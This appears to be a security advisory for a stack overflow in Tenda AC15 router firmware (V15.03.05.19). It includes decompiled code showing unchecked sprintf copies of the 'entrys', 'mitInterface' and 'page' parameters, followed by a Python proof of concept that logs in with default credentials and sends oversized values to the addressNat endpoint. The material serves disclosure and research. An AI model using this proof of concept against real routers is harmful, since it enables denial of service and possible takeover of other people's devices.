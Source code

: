 ## Tenda AC15 stack overflow vulnerability

### * Version

V15.03.05.19 (US_AC15V1.0BR_V15.03.05.19_multi_TD01.bin)

### * Firmware
[https://www.tenda.com.cn/download/detail-2680.html](https://www.tenda.com.cn/download/detail-2680.html)




### * Vulnerability Detail

n function fromAddressNat, the content obtained by the program from the parameter "entrys", "mitInterface" and  "page" are passed to local_14, local_18 and local_1c, 
and then the local_14 and  local_18 are directly copied into the acStack796 stack through the sprintf function. The local_1c os copied into the acStack284 stack through the sprintf function.
There is no size check, so there is a stack overflow vulnerability. The attacker can easily perform a Deny of Service Attack or Remote Code Execution with carefully crafted overflow data.


```c
void fromAddressNat(undefined4 param_1)

{
  int iVar1;
  char acStack1052 [256];
  char acStack796 [512];
  char acStack284 [256];
  undefined4 local_1c;
  undefined4 local_18;
  undefined4 local_14;
  
  memset(acStack1052,0,0x100);
  local_14 = FUN_0002ba8c(param_1,"entrys",&DAT_000e5d48);
  local_18 = FUN_0002ba8c(param_1,"mitInterface",&DAT_000e5d48);
  sprintf(acStack796,"%s;%s",local_14,local_18);  // overflow here
  FUN_0004ec58("adv.addrnat",acStack796,0x7e);
  local_1c = FUN_0002ba8c(param_1,"page",&DAT_000e5f4c);
  sprintf(acStack284,"advance/addressNatList.asp?page=%s",local_1c);  //overflow here
  iVar1 = CommitCfm();
  if (iVar1 != 0) {
    sprintf(acStack1052,"advance_type=%d",7);
    send_msg_to_netctrl(5,acStack1052);
  }
  FUN_0002be4c(param_1,acStack284);
  return;
}
```

### * POC
```python
import requests


cmd  = b'entrys=' + b'A' * 400 + '&mitInterface='
cmd += b'A'* 0x400 + '&page=' + 'A' * 200


url = b"http://192.168.2.2/login/Auth"
payload = b"http://192.168.2.2/goform/addressNat/?" + cmd

data = {
    "username": "admin",
    "password": "admin",
}

def attack():
    s = requests.session()
    resp = s.post(url=url, data=data)
    print(resp.content)
    resp = s.post(url=payload, data=data)
    print(resp.content)

attack()

```
